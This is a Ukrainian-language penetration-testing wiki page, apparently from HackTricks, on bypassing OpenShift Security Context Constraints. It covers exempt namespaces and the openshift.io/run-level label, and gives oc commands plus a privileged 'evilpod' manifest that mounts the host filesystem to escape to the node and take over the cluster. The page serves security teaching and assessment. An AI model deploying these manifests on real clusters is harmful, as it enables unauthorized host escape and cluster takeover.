 # Openshift - SCC bypass

**Оригінальний автор цієї сторінки** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Привілейовані простори імен

За замовчуванням, SCC не застосовується до наступних проектів:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Якщо ви розгортаєте поди в одному з цих просторів імен, жоден SCC не буде застосовано, що дозволяє розгортати привілейовані поди або монтувати файлову систему хоста.

## Мітка простору імен

Існує спосіб вимкнути застосування SCC на вашому поді відповідно до документації RedHat. Вам потрібно мати принаймні одне з наступних дозволів:

- Створити простір імен і створити под у цьому просторі імен
- Редагувати простір імен і створити под у цьому просторі імен
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Специфічна мітка `openshift.io/run-level` дозволяє користувачам обходити SCC для додатків. Згідно з документацією RedHat, коли ця мітка використовується, жодні SCC не застосовуються до всіх подів у цьому просторі імен, ефективно усуваючи будь-які обмеження.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Додати мітку

Щоб додати мітку у вашому просторі імен:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Щоб створити простір імен з міткою через файл YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Тепер всі нові поди, створені в просторі імен, не повинні мати жодного SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

У відсутності SCC немає жодних обмежень на визначення вашого пода. Це означає, що зловмисний под може бути легко створений для втечі на хост-систему.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Тепер стало легше підвищити привілеї для доступу до хост-системи і, відповідно, захопити весь кластер, отримавши привілеї 'cluster-admin'. Шукайте частину **Node-Post Exploitation** на наступній сторінці:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Користувацькі мітки

Крім того, залежно від налаштувань цілі, деякі користувацькі мітки / анотації можуть використовуватися так само, як у попередньому сценарії атаки. Навіть якщо це не передбачено, мітки можуть бути використані для надання дозволів, обмеження або не обмеження конкретного ресурсу.

Спробуйте знайти користувацькі мітки, якщо ви можете прочитати деякі ресурси. Ось список цікавих ресурсів:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Перелічити всі привілейовані простори імен
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

В OpenShift, як було продемонстровано раніше, наявність дозволу на розгортання пода в просторі імен з міткою `openshift.io/run-level` може призвести до простого захоплення кластера. З точки зору налаштувань кластера, ця функціональність **не може бути вимкнена**, оскільки вона є невід'ємною частиною дизайну OpenShift.

Однак, заходи пом'якшення, такі як **Open Policy Agent GateKeeper**, можуть запобігти користувачам встановлювати цю мітку.

Щоб обійти правила GateKeeper і встановити цю мітку для виконання захоплення кластера, **зловмисники повинні знайти альтернативні методи.**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
